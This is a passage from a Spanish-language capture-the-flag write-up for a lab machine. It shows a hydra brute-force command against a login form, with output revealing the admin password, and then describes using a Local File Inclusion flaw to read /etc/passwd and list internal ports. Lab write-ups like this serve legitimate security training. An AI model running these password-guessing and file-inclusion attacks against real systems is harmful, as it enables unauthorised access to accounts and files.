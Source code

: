 Otro panel de inicio de sesion, lo que se me ocurre es probar a hacer fuerza bruta en ambos y esperar:

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password"
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password
[STATUS] 1935.00 tries/min, 1935 tries in 00:01h, 14342464 to do in 123:33h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```

# EXPLOTACION

Vaya hemos encontrado la contraseña del usuario admin, entramos en la pagina y después de inspeccionar encuentro una dirección un tanto extraña, que muchas veces es señal de posible LFI (Local File Inclusion) "Inclusión de archivos locales de la maquina", consigo explotarlo con la ayuda de BurpSuite, mediante un ataque sniper y con un diccionario de posibles LFIs

![images/Untitled%202.png](images/Untitled%202.png)

![images/Untitled%203.png](images/Untitled%203.png)

Podemos listar el archivo /etc/passwd de la maquina gracias al LFI, tambien podemos ver los puertos abiertos internos de la maquina:
